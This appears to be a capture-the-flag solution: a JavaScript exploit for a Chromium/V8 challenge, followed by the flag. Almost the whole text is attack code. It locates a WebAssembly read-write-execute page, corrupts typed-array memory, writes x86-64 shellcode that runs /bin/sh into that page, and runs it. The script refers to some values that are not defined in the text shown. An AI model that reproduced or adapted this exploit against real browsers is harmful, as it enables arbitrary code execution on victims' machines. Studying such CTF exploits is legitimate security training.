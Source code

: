 ```javascript
const wasm_instance = new WebAssembly.Instance(new WebAssembly.Module(wasm_code));

const wasm_func = wasm_instance.exports.a;

var d = new Uint8Array([0]);
var buffer = new Uint8Array([0]);


var m1 = 0, m2 = 0, offset=0;
for (let j = -256; j < 256; j+=4) {
  m1 = 0, m2 = 0;
  for (let i = 0; i < 4; i++) {
    m1 += a.charCodeAt(3340+j+i) << (8*i);
  }
  for (let i = 0; i < 4; i++) {
    m2 += a.charCodeAt(3340+j+4+i) << (8*i);
  }
  if (m2 !== 0 && m1 !== 0 && (m1&0xfff) === 0 && (m1&0x1000) === 0x1000) {
    offset = 3896+j;
    console.log('found: '+offset);
    break;
  }
}


let rwx_addr = [m2,m1];
console.log('rwx_addr: '+hex(...rwx_addr));

let other = (BigInt(rwx_addr[0])<<32n)+BigInt(rwx_addr[1])-0x80804edn;
other = [Number(other >> 32n), Number(other & 0xffffffffn)];


[m1, m2] = other;
for (let i = 0; i < 4; i++) {
  d.fill(m1&0xff, 164+0x28+4+i, 164+0x28+4+i+1);
  m1 >>= 8;
}
for (let i = 0; i < 4; i++) {
  d.fill(m2&0xff, 164+0x28+i, 164+0x28+i+1);
  m2 >>= 8;
}

var shellcode = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5, 144, 144, 144, 144];
for (let i = 0; i < shellcode.length; i++) {
  buffer.fill(shellcode[i], i, i+1);
}

wasm_func();
```


flag: `p4{c0mPIling_chr@mium_1s_h4rd_ok?}`